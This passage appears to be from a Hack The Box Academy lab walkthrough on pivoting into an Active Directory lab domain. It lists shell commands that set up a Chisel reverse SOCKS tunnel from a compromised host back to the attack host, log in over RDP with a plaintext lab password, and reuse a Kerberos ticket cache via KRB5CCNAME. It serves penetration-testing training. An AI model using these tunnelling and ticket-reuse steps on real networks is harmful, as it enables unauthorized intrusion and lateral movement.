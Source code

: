 ```shell-session
cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

#### Proxychains Configuration File


```shell-session
cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to our Attack Host


```shell-session
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```

```shell-session
gzip -d chisel_1.7.7_linux_amd64.gz
```

```shell-session
 mv chisel_* chisel && chmod +x ./chisel
```

```shell-session
sudo ./chisel server --reverse
```

#### Connect to MS01 with xfreerdp

```shell-session
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01

```cmd-session
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

#### Setting the KRB5CCNAME Environment Variable

```shell-session
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket
